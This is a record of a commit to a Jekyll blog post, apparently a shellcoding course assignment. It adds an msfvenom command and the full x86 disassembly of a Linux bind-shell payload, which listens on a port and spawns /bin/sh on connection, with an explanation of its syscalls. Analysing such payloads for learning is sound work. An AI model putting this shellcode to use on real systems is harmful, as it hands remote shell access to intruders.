

Before and after one commit to Minfanger101/sm00v.github.io, a Jekyll site: the page built from _posts/2019-10-19-assignment_1.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
blog update

````diff
--- a/_posts/2019-10-19-assignment_1.md
+++ b/_posts/2019-10-19-assignment_1.md
@@ -12,11 +12,60 @@ Create a Shell_Bind_TCP shellcode that;
 1. Binds to an easily configurable port number
 2. Executes a shell on an incoming connection
 
+## MSFVenom Shellcode Under the Microscope
 
 A bind shell is a type of shell in which the system on which the code is run binds a TCP socket that is designated to listen for incoming connections to a specified port and IP address. When a bind shell is used, the system on which the bind shell is executed acts as the listener. When a connection is accepted on the bound and listening socket on the designated port and IP address, a shell will be spawned on the system on which the code is run.
 
+While analyzing shell_bind_tcp shellcode produced by msfvenom, it appears that a total of six syscalls are executed in sequential order. The order goes: socket, bind, listen, accept, dup2, and execve. Each serve a purpose in creating a bind shell. Let's analyze the first function in this payload.
 
-While analyzing shell_bind_tcp shellcode produced my msfvenom, it appears that a total of six syscalls are executed in sequential order. The order goes: socket, bind, listen, accept, dup2, and execve. Each serve a purpose in creating a bind shell. Let's analyze the first function in this payload.
+`msfvenom -p linux/x86/shell_bind_tcp -f raw| ndisasm -u -` produces
+
+```
+Payload size: 78 bytes
+
+xor ebx,ebx
+mul ebx
+push ebx
+inc ebx
+push ebx
+push byte +0x2
+mov ecx,esp
+mov al,0x66
+int 0x80
+pop ebx
+pop esi
+push edx
+push dword 0x5c110002
+push byte +0x10
+push ecx
+push eax
+mov ecx,esp
+push byte +0x66
+pop eax
+int 0x80
+mov [ecx+0x4],eax
+mov bl,0x4
+mov al,0x66
+int 0x80
+inc ebx
+mov al,0x66
+int 0x80
+xchg eax,ebx
+pop ecx
+push byte +0x3f
+pop eax
+int 0x80
+dec ecx
+jns 0x32
+push dword 0x68732f2f
+push dword 0x6e69622f
+mov ebx,esp
+push eax
+push ebx
+mov ecx,esp
+mov al,0xb
+int 0x80
+```
 
 The socket or SYS_SOCKETCALL is syscall number 102 or 0x66.
 
````
Also changed, not shown: 1 other file.
